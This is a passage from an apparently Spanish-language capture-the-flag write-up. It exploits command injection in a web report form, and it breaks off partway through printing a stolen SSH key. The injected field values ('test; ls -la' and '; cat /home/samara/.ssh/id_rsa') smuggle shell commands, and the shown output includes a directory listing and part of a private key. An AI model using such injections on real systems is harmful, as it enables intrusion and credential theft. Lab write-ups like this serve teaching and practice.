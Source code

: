 Vemos que hay un puerto `80`, si entramos en el vemos una pagina en la que hay mucha informacion pero vemos algo interesante y es que se pueden enviar reportes cosa que se queda reflejado en la pagina, probaremos a injectar comandos.

## Injeccion de comandos

Si injectamos comandos directamente no funciona, pero si concatenamos una palabra normal con un comando si sirve.

```shell
Nombre del archivo: test; ls -la
Fecha: 21-08-2024
```

Info:

```
Reporte: reporte_1724233112.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724233112.txt
Nombre: test\
total 56
drwxr-xr-x 1 root     root     4096 Aug 20 20:23 .
drwxr-xr-x 1 root     root     4096 Aug 20 18:08 ..
-rw-r--r-- 1 root     root     4992 Aug 20 20:20 index.php
drwxr-xr-x 2 root     root     4096 Aug 20 20:07 old
drwxr-xr-x 1 www-data www-data 4096 Aug 21 11:38 reportes
-rw-r--r-- 1 root     root     1090 Aug 20 20:14 scripts.js
-rw-r--r-- 1 root     root     2693 Aug 20 20:12 styles.css
-rw-r--r-- 1 root     root     1215 Aug 20 20:23 styles_upload.css
-rw-r--r-- 1 root     root     2314 Aug 20 20:23 upload.html
-rw-r--r-- 1 root     root     1645 Aug 20 20:23 upload.js
-rw-r--r-- 1 root     root     1296 Aug 20 20:19 upload.php
Fecha: 21-08-2024
```

Si vemos el `passwd` veremos que hay un usuario llamado `samara` por lo que probaremos a ver si tiene alguna `id_rsa` que se pueda ver.

```shell
Nombre del archivo: test
Fecha: 21-08-2024; cat /home/samara/.ssh/id_rsa
```

Info:

```
Reporte: reporte_1724233200.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724233200.txt
Nombre: test
Fecha: 21-08-2024\
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9HEXYsEOUt5PUH/2fHI/buNxluV3x2qL6wATg0scjIeog9LSmW3k
K3NLw5yDON2vEfZxRSuEkUd743i2AZq/gekNEpvuUTnruRTibz/hZojm8CBpjgXccJW63a
ksBBS/G8iqTa4i9l9GFF0ytuGJ5CmAQy37dgNfsP015OrlN8jg56rtbUyR9kfscYU8R/B0
GDUo60Ek9kzv6QXzkVf/lmnKlVO/4ioJ5iEyL1z91NxBHsOWNQBCjry3kOYDynRD5mKj/g
2OZ/TWpTh/QylyKFfDQYPrbjXXWEe8nnzmoDolKtWvez0Sjig7TBV0z2swcvIuWoxwNFVL
0j/FnwkwYihlbLWi9Gu6ZeddY2+5RfZPRSZrd0+yOvUqHtZHBMBM5nMVyHoh78QyW8bA/q
K93VoLNrf8o19YyZoeNqVP03PE/sSE953JahsHr2iPyNb3q/Hgm+1mn5zL8e++oThK/s43
GeaCpew8JbRf1mD6lkfNZEhAQ2TXvtKRwvWmLxSYmExqgzXD7/XP/ZLUKNO+hQByu+l+VG
Hm2v37ndhOhvstHhNr55GF3/hcnNsg3EeScEENFUtyOkpP/+UDvCnL/0CFNKah66QavAiD
Y0hF4ZbgGK9U/A7nhRRFOMSJ5Exn5kJnpJ88R4CsoTUrRXKTV2PB6WlBvwnrjcZqEZJtr2
MAAAdQRX/EGUV/xBkAAAAHc3NoLXJzYQAAAgEA9HEXYsEOUt5PUH/2fHI/buNxluV3x2qL
6wATg0scjIeog9LSmW3kK3NLw5yDON2vEfZxRSuEkUd743i2AZq/gekNEpvuUTnruRTibz
/hZojm8CBpjgXccJW63aksBBS/G8iqTa4i9l9GFF0ytuGJ5CmAQy37dgNfsP015OrlN8jg
56rtbUyR9kfscYU8R/B0GDUo60Ek9kzv6QXzkVf/lmnKlVO/4ioJ5iEyL1z91NxBHsOWNQ
```